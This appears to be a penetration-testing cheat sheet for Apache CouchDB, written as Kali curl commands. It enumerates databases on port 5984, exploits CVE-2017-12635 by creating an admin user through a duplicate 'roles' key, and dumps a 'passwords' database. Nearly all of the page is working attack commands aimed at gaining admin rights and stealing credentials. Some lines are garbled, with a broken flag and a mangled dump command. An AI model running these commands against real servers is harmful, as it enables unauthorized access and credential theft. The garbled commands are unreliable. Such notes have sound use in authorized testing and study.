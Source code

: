 ```bash - kali
curl http://$TARGET:5984/
```
```bash - kali
curl -X GET http://$TARGET:5984/_all_dbs
```
```bash - kali
curl -X GET http://user:password@$TARGET:5984/_all_dbs
```
### CVE-2017-12635 RCE
#### Create user
```bash - kali
curl -X PUT ‘http://$TARGET:5984/_users/org.couchdb.user:chenny' -- data-binary ‘{ “type”: “user”, “name”: “chenny”, “roles”: [“_admin”], “roles”: [], “password”: “password” }’
```
#### Dump database
```bash - kali
curl http://$TARGET:5984/passwords/_all_docs?include_docs=true -u chenny:-Xpassword <ds/_all_docs?include_docs=true -u chenny:-Xpassword
```
#### Dump passwords
```bash - kali
curl -X GET http://user:passwords@$TARGET:5984/passwords
```
